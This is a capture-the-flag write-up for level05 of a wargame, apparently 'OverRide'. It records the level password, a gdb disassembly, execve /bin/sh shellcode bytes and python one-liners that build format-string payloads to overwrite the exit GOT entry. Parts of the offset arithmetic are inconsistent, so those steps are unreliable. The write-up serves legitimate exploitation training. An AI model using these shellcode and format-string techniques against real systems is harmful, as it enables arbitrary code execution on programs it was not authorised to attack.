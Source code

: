 # Level 05
*password : 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN*

## Analyze

```
scp -P 4242 level05@192.168.56.109:level05 binary/
```

```
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
```

<!-- buffer address : 0x0804846e
buffer + 4 address : 0x08048472

shellcode : `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`

```
python -c 'print "\xe0\x97\x04\x08" + " %p" * 10' | ./level05
n 0x64 0xf7fcfac0 0xf7ec3af9 0xffffd5ff 0xffffd5fe (nil) 0xffffffff 0xffffd684 0xf7fdb000 0x80497e0
```
- offset : 10
804 = 2052
8472 = 33906

2052 - 12 - 4 = 2036
33906 - 2052 = 31854

```
$ python -c 'print "\xe0\x97\x04\x08" + "\xd0\xae\xe6\xf7" + "\xc4\x45\xee\xf7" + "\xec\x97\xf8\xf7" + "%2036x" + "%10$hn" + "%31854x" + "%10$hn"' > /tmp/level05
$ cat /tmp/level05 - | ./level05
``` -->

return exit() : 0x080497e0\
```
$ cd /tmp
$ gcc getenv.c
$ cd -
/home/users/level05
$ level05@OverRide:~$ /tmp/a.out
0x7fffffffe813
```

4294961171 - 4 = 4294961167

- FFFF = 65535
- E813 = 59411
59411 - 4 = 59407\
65535 - 59422 = 6113


python -c 'print "\xe0\x97\x04\x08" + "%4294961167x" + "%10$n"' > /tmp/level05
